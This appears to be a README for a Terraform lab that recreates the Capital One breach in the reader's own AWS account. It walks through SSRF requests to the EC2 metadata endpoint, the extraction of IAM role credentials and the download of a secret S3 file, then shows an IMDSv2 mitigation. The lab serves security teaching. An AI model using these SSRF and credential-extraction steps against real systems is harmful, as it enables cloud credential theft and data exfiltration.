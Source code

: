 # Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the `main.tf` file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```$ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ``` 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:
   ```
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ```
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

    ![](ssrf_1.png)  

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.
   ```
   $ aws configure --profile c-demo
   ```  
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:
   ```
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.
   ```
   $ aws s3 ls {bucket_name} --profile ssrf-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents
   ```
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.
```
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```
The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:
```
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```
  $ terraform destroy
  ```

## References:
1. https://blog.lightspin.io/tag/cloud-security
2. https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a
3. https://blog.gruntwork.io/how-to-create-reusable-infrastructure-with-terraform-modules-25526d65f73d
4. https://www.youtube.com/watch?v=tPQsI8n6er0

